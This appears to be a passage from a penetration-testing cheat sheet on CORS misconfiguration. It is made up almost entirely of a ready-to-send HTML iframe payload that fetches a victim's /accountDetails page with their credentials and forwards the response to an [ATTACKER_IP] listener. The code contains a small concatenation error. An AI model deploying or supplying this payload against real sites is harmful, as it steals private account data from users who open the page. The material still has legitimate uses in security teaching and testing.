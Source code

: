 #cors

Send this to the targeted user to retrieve information only accessible by the user (in this example it is the `/accountDetails` page).

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://[TARGET_IP]/accountDetails',true);
    req.withCredentials = true;
    req.send();
    
    function reqListener() {
        location='https://[ATTACKER_IP]/listener?c='this.responseText;
    };
</script>"></iframe>
```